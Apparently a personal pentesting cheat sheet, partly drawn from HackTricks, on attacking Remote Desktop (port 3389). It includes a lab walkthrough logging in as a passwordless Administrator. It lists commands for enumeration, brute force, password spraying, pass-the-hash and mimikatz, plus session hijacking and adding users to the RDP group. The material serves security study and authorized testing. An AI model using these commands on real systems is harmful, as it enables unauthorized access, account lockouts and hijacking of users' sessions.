 ```yaml
---
title: 3389 RDP
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - rdp
  - port 3389
  - mimikatz
---
```


# 3389 rdp

## Description

source: https://book.hacktricks.xyz/network-services-pentesting/pentesting-rdp

Basic information about RDP service: Remote Desktop Protocol (RDP) is a proprietary protocol developed by Microsoft, which provides a user with a graphical interface to connect to another computer over a network connection. The user employs RDP client software for this purpose, while the other computer must run RDP server software (from here).


| Name | Description |
| ---- | ----------- |
| port | 3389/TCP | 
| state | open |
| service | ms-wbt-server |   
| version | Microsoft Terminal Services |
| Banner | rdp-ntlm-info |


## Enumeration: 

To check the available encryption and DoS vulnerability (without causing DoS to the service) and obtains NTLM Windows info (versions).

```bash
nmap -Pn -sV -p3389 --script rdp-*  IP
```

Results:
```
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-enum-encryption:
|   Security layer
|     CredSSP (NLA): SUCCESS
|     CredSSP with Early User Auth: SUCCESS
|_    RDSTLS: SUCCESS
| rdp-ntlm-info:
|   Target_Name: EXPLOSION
|   NetBIOS_Domain_Name: EXPLOSION
|   NetBIOS_Computer_Name: EXPLOSION
|   DNS_Domain_Name: Explosion
|   DNS_Computer_Name: Explosion
|   Product_Version: 10.0.17763
|_  System_Time: 2022-11-11T12:16:26+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

One of the most long-standing and major features of Windows is Remote Desktop. To run Microsoft’s Remote Desktop Protocol (RDP) client, a command-line interface called Microsoft Terminal Services Client (MSTSC) is used.

As mentioned before, we will be using xfreerdp to connect from our Parrot Security virtual machine. You can check if you have xfreerdp installed by typing the command name in the terminal. If the script's help menu is output to the terminal, then you are ready to go. In the following screenshot, we have omitted a large part of the output for space considerations. The help menu for this script is vast, and you can find out much information about the functionality of each switch if you read through it.

If you need to install xfreerdp, you can proceed with the following command: 

```
sudo apt-get install freerdp2-x11
```

We can first try to form an RDP session with the target by not providing any additional information for any switches other than the target IP address. This will make the script use your own username as the login username for the RDP session, thus testing guest login capabilities.

```
xfreerdp /v:10.129.1.13
# /v:{target_IP} : Specifies the target IP of the host we would like to connect to.
```

As we can see from the output below, our own username is not accepted for the RDP session login mechanism. We can try a myriad of other default accounts, such as user , admin , Administrator , and so on. In reality, this would be a time-consuming process. However, for the sake of RDP exploration, let us attempt logging in with the Administrator user, as seen from the commands below. We will also be specifying to the script that we would like to bypass all requirements for a security certificate so that our own script does not request them. The target, in this case, already does not expect any. Let us take a look at the switches we will need to use with xfreerdp in order to connect to our target in this scenario successfully:

```
xfreerdp /cert:ignore /u:Administrator /v:10.129.1.13
# /cert:ignore : Specifies to the scrips that all security certificate usage should be ignored.
# /u:Administrator : Specifies the login username to be "Administrator".
# /v:{target_IP} : Specifies the target IP of the host we would like to connect to.
```

The output is different this time, and during the initialization of the RDP session, we are asked for a Password. In our case, the Administrator account has not been configured with a password for logging in for the sake of accessibility for the end-user. This is a severe mishap in configuration and will result in us, the attacker, gaining access to the machine without much effort. When prompted to enter the Password like in the output above, we can hit Enter to let the process continue without one. Following this, a large output will be displayed on our terminal before a remote desktop window is loaded. The flag we are looking for is located on the Desktop.

## Brute force

```
ncrack -vv --user <User> -P pwds.txt rdp://<IP>
hydra -V -f -L <userslist> -P <passwlist> rdp://<IP>
```
Be careful, you could lock accounts

## Password Spraying

Be careful, you could lock accounts

```bash
# https://github.com/galkan/crowbar
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'

# hydra
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

## Connect with known credentials/hash

```bash
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
xfreerdp [/d:domain] /u:<username> /p:<password> /v:<IP>
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:<IP> #Pass the hash
```

Check known credentials against RDP services

rdp_check.py from impacket let you check if some credentials are valid for a RDP service:

```
rdp_check <domain>/<name>:<password>@<IP>
```

## Attacks

### Session stealing

With SYSTEM permissions you can access any opened RDP session by any user without need to know the password of the owner.

Get openned sessions:
```
query user
```

Access to the selected session
```
tscon <ID> /dest:<SESSIONNAME>
```

Now you will be inside the selected RDP session and you will have impersonate a user using only Windows tools and features.

Important: When you access an active RDP sessions you will kickoff the user that was using it.
You could get passwords from the process dumping it, but this method is much faster and led you interact with the virtual desktops of the user (passwords in notepad without been saved in disk, other RDP sessions opened in other machines...)

### Mimikatz

You could also use mimikatz to do this:
```
ts::sessions #Get sessions
ts::remote /id:2 #Connect to the session
```

Sticky-keys & Utilman
Combining this technique with stickykeys or utilman you will be able to access a administrative CMD and any RDP session anytime

You can search RDPs that have been backdoored with one of these techniques already with: https://github.com/linuz/Sticky-Keys-Slayer


### RDP Process Injection

If someone from a different domain or with better privileges login via RDP to the PC where you are an Admin, you can inject your beacon in his RDP session process and act as him:

### RDP Sessions Abuse

```
# Adding User to RDP group
net localgroup "Remote Desktop Users" UserLoginName /add
```

#### Shadow Attack

AutoRDPwn is a post-exploitation framework created in Powershell, designed primarily to automate the Shadow attack on Microsoft Windows computers. This vulnerability (listed as a feature by Microsoft) allows a remote attacker to view his victim's desktop without his consent, and even control it on demand, using tools native to the operating system itself.


https://github.com/JoelGMSec/AutoRDPwn

